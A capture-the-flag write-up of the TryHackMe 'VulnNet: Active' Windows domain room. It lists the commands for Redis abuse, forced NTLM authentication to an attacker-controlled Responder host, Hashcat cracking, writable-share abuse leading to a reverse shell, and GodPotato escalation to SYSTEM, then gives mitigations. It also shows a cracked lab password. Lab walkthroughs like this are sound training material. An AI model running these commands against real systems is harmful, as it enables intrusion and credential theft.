# TryHackMe - VulnNet: Active

## Overview

Full Windows Active Directory attack chain against the TryHackMe VulnNet: Active room. This room covers unauthenticated Redis exploitation, Net-NTLMv2 hash capture via Responder, offline hash cracking, writable SMB share abuse, reverse shell via scheduled PowerShell script, and privilege escalation to SYSTEM using GodPotato.

**Platform:** TryHackMe | **Room:** VulnNet: Active | **Difficulty:** Medium

**Attacker:** Kali Linux | **Target:** 10.67.191.253 | **Domain:** vulnnet.local

**Attack Path:**

Network Enumeration → Unauthenticated Redis → Responder Hash Capture → Hash Cracking → SMB Enumeration → Writable Share Abuse → Reverse Shell → GodPotato SYSTEM

---

## 1. Network Enumeration

Full port scan with service detection identified the target as a Windows Active Directory domain controller.

```bash
sudo nmap -sV -sC -p- 10.67.191.253
```



Key findings:

- Port 53 - DNS
- Port 135/139 - RPC / NetBIOS
- Port 445 - SMB (Signing Required)
- Port 464 - Kpasswd (Kerberos)
- Port 6379 - Redis (unauthenticated)
- Port 9389 - .NET Message Framing

---

## 2. Unauthenticated Redis Access

Port 6379 running Redis stood out as unusual on a domain controller. Redis connected with no password required.

```bash
redis-cli -h 10.67.191.253
```

```bash
info
```



Redis was running as the user `enterprise-security` with no authentication configured.

```bash
config get *
```



Key finding from config:

- Redis running from `C:\Users\enterprise-security\Downloads\Redis-x64-2.8.2402`

---

## 3. Net-NTLMv2 Hash Capture via Responder

With unauthenticated Redis access, a UNC path eval was used to force the server to authenticate back to Kali, where Responder was listening.

```bash
sudo responder -I tun0
```

```bash
eval "dofile('//192.168.203.76/share')" 0
```





Responder captured the Net-NTLMv2 hash for `VULNNET\enterprise-security`.

---

## 4. Hash Cracking

The Net-NTLMv2 hash was cracked offline using Hashcat.

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```



**Result:** `enterprise-security:sand_0873959498`

---

## 5. SMB Share Enumeration

Using the recovered credentials, SMB shares were enumerated on the domain controller.

```bash
smbclient -L \\\\10.67.191.253\\ -U enterprise-security
```



Six shares identified. `Enterprise-Share` was non-standard and investigated further.

---

## 6. Writable Share and Scheduled Script Abuse

The `Enterprise-Share` contained a PowerShell script being run on a schedule. Write access to the share was confirmed.

```bash
smbclient \\\\10.67.191.253\\Enterprise-Share -U enterprise-security -t 120
```



The original script `PurgeIrrelevantData_1826.ps1` contained:

```powershell
rm -Force C:\Users\Public\Documents\* -ErrorAction SilentlyContinue
```

This was replaced with a PowerShell reverse shell payload and uploaded back to the share.

---

## 7. Reverse Shell

With netcat listening on port 4444, the scheduled task executed the malicious script and connected back.

```bash
nc -lvnp 4444
```



Shell obtained as `vulnnet\enterprise-security`.

---

## 8. User Flag



---

## 9. Privilege Escalation via GodPotato

`whoami /priv` revealed `SeImpersonatePrivilege` was enabled — a reliable path to SYSTEM.

GodPotato was uploaded to the share and copied to the target, then executed to run commands as SYSTEM.

```bash
copy \\10.67.191.253\Enterprise-Share\GodPotato-NET4.exe C:\Users\enterprise-security\Downloads\GodPotato-NET4.exe
```

```bash
C:\Users\enterprise-security\Downloads\GodPotato-NET4.exe -cmd "cmd /c whoami"
```



`NT AUTHORITY\SYSTEM` confirmed.

---

## 10. System Flag

```bash
C:\Users\enterprise-security\Downloads\GodPotato-NET4.exe -cmd "cmd /c type C:\Users\Administrator\Desktop\system.txt"
```



---

## 11. Room Completed



---

## Findings Summary

| Phase | Technique | Result |
|-------|-----------|--------|
| Network Recon | Nmap Full Port Scan | Redis on port 6379 identified |
| Redis Access | redis-cli unauthenticated | Full Redis access with no credentials |
| Hash Capture | Responder + Redis UNC eval | Net-NTLMv2 hash for enterprise-security captured |
| Hash Cracking | Hashcat mode 5600 | enterprise-security password recovered offline |
| SMB Enumeration | smbclient | Enterprise-Share with writable scheduled script discovered |
| Share Abuse | PowerShell reverse shell | Malicious script uploaded and executed by scheduled task |
| Reverse Shell | Netcat listener | Shell obtained as enterprise-security |
| Privilege Escalation | GodPotato SeImpersonatePrivilege | SYSTEM shell obtained |

---

## Recommended Mitigations

- Never expose Redis without authentication, especially on a domain controller
- Restrict Redis to localhost or internal trusted interfaces only
- Audit SMB share permissions and remove write access where not needed
- Avoid storing or running scheduled scripts from user-accessible shares
- Monitor for UNC path requests originating from unexpected services
- Restrict SeImpersonatePrivilege to only necessary service accounts
- Implement LAPS for local administrator password management

---

## Skills Demonstrated

- Network Enumeration (Nmap)
- Unauthenticated Redis Exploitation
- Net-NTLMv2 Hash Capture (Responder)
- Offline Hash Cracking (Hashcat)
- SMB Enumeration and Share Access (smbclient)
- Writable Share Abuse via Scheduled Task
- PowerShell Reverse Shell
- Privilege Escalation via SeImpersonatePrivilege (GodPotato)
- Windows Active Directory Compromise